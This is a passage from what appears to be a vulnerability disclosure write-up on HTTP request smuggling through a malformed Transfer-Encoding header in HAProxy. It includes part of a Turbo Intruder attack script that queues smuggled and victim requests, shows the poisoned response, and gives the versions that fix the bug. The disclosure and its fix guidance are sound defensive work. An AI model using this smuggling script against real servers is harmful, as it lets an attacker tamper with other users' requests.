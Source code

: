 ```python
1
A
0

GET / HTTP/1.1
X-Foo: bar'''
    engine.queue(attack)
    engine.start()


def handleResponse(req, interesting):
    table.add(req)
    if req.code == 200:
        victim = '''GET / HTTP/1.1
Host: 127.0.0.1:1080
Connection: close

'''

        for i in range(10):
            req.engine.queue(victim)
```

Note the `concurrentConnections=1` and `requestsPerConnection=1` configuration in this script - this should avoid encountering false positives, where we are poisoning our client to HAProxy connection instead of HAProxy to backend. You may need to change the endpoint and Host headers to suit your environment.

How do we know we have achieved smuggling? when we launch this attack in Turbo Intruder, one of the victim results (likely the first) should stand out response size wise. Going back to the above app code, we are echoing out the request headers in the response. Here is what the response for the poisoned victim request looks like:

```json
{"body":"","headers":{"Host":"127.0.0.1:1080","X-Foo":"barGET / HTTP/1.1"}}
```

We can see here that the `X-Foo: bar` header in the attacker request is present in a victim request's headers, and the `GET / HTTP/1.1` that the victim really wanted to request has been appended to this. This is a smuggled header, achieving HTTP request smuggling.

## Fix

The HAProxy bug which allows the malformed Transfer-Encoding header through was [fixed in 2.0.6](http://git.haproxy.org/?p=haproxy-2.0.git;a=commit;h=196a7df44d8129d1adc795da020b722614d6a581) for those on 2.0.x who need the `no option http-use-htx` config. In 1.9, you should be able to use `option http-use-htx` to switch to the new HTTP decoder which is enabled by default in 2.0, which is not vulnerable to this bug. For those on 1.9 who need to use the legacy decoder or on earlier versions, the [commit message](http://git.haproxy.org/?p=haproxy-2.0.git;a=commit;h=196a7df44d8129d1adc795da020b722614d6a581) suggests it will be back ported to all maintained versions (which appears to be 1.6 and above at the time or writing).

## Reporting timeline
